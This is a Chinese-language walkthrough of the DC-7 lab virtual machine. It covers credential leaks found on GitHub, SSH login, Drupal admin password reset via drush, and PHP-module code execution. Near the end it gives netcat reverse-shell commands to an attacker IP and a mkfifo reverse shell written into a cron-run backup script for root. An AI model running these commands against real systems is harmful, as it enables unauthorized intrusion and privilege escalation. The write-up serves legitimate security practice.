运行虚拟机，有ip
192.168.101.136
就跳过找ip的步骤
端口，少的可怜，不过开了22

目录没有什么特别的发现，有一个robots.txt
http://192.168.101.136/robots.txt
github找到敏感信息
去谷歌搜了一下@DC7USER
DC7user
然后找到了这个
https://github.com/Dc7User/staffdb
下载过来看一下
在config.php里找到这个
dc7user
MdR3xOgB7#dW

但是我只扫到22和80端口，所以用这个账号密码去试着连接一下ssh
还真成了

sudo -l
find / -perm -u=s -type f 2>/dev/null
都没有东西

在/home/dc7user目录下，有个backup文件夹和mbox文件，看了一下mbox，应该是邮件文件

像是日志，里面分析出来的有用的信息有，
/opt/scripts/backups.sh
/home/dc7user/backups/website.sql


sh文件先放一边，gpg是一种加密文件，去百度了，看不懂，
回到sh文件
1 | #!/bin/bash |
在我一步一步跟着shell文件走时，突然来了个这个

没啥用，再来一次，这次得到了未加密的文件

用xshell连上，再用xftp把文件下载到本地
可以看到用的是mariadb，其他的我什么都没找到

这边倒是有东西

既然有这么些漏洞，我就去google搜一下没找到可以利用的！！
连接上数据库
看了一样别人的博客，在/var/www/html/sites/default下的setting.php文件里找到了东西
数据库的账户
db7user
yNv3Po00

在 select * from d7db.users_field_data里找到了admin账号和密码
但是解密不出来，卡了一天，参考了一下别人的，可以用drush来修改密码
drush user-password admin –password=”12345”
然后回到网站
http://192.168.101.136/user/login
用admin
12345
登录网站
反弹www-data的shell，修改backups文件
使用drupal的反弹shell，添加插件
http://drupal.org/project/php
在extend-> install new module->添加下载的php插件
然后在extend里找到他，勾选，启用

之后在content-> add content -> basic page 里写入
注意修改text format为phpcode,保存，预览，在url后面加上
?a=nc -e /bin/bash 192.168.243.131 4446
来反弹shell。拿到www-data的权限后，

然后修改backups.sh文件，
echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.243.131 4445 >/tmp/f “>backups.sh
用它的定时任务，反弹一个root权限的shell回来
要点耐心，需要等一会，

总结
这一篇记录得有些乱，这个靶机看来作者是想让我们从github来找敏感信息，找到后使用ssh连上后，后面的操作我确实想不到，从网页设置文件中找到了数据库密码，连上数据库后修改admin用户的密码，再在网页中使用admin用户反弹更高权限的shell，然后就是和上一个靶机类似操作的，修改shell文件，利用定时任务来提权